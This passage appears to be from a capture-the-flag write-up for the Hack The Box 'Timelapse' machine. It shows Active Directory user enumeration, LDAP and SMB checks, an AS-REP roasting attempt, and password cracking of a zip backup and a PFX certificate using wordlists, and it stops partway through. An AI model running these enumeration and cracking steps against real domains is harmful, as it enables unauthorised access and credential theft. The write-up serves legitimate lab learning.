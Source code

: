 Unauthenticated

```bash
impacket-lookupsid 'timelapse.htb/guest'@timelapse.htb -no-pass | grep SidTypeUser | cut -d' ' -f 2 | cut -d'\' -f 2 | tee users
```

### User Description Fields

```bash
sudo nxc smb $IP -u 'guest' -p '' --users
```

Nothing returned.

### Port 389/3268

```powershell
ldapsearch -x -H ldap://$IP -D '' -w '' -b "DC=timelapse,DC=htb"
```

LDAP Anonymous Bind is not enabled.

## Initial Attack Vectors

### AS-REP Roasting

```bash
GetNPUsers.py timelapse.htb/ -dc-ip $IP -no-pass -usersfile users
```

No result.

## Exploitation

Trying to unzip `winrm_backup.zip` file, it requires password for it, I am gonna try to crack it using `fcrackzip`.

```bash
fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip
```

![image.png](image%206.png)

Now we have `legacyy_dev_auth.pfx`. As port 5986 is also open that lures us to authenticate using winrm using this file. I wanted to extract key file from `pfx` and it requires import password I am gonna try to crack `pfx` file that we have.

```bash
pfx2john legacyy_dev_auth.pfx > pfx.hash
john --wordlist=/usr/share/wordlists/rockyou.txt pfx.hash
john pfx.hash --show
```

![image.png](image%207.png)

Extract key file:
